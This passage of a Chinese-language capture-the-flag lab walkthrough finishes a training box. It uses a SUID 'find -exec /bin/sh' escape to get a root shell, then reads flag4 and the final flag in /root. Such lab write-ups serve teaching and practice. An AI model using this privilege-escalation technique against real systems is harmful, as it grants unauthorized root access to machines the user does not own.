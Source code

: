 开始提权

```text
cd /var/www
mkdir test
find test -exec '/bin/sh' \;
```

![image-20210311130903164](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210311130903164.png)

提权成功

找到并打开flag4.txt

![image-20210311131031513](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210311131031513.png)

```text
Can you use this same method to find or access the flag in root?

Probably. But perhaps it's not that easy.  Or maybe it is?
```

提示最后一个flag在root文件夹中

进入root文件夹

```text
cd /
cd root
ls
cat thefinalflag.txt
```

![image-20210311131154740](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210311131154740.png)

```text
Well done!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
```

成功找到最后一个flag

靶机训练结束

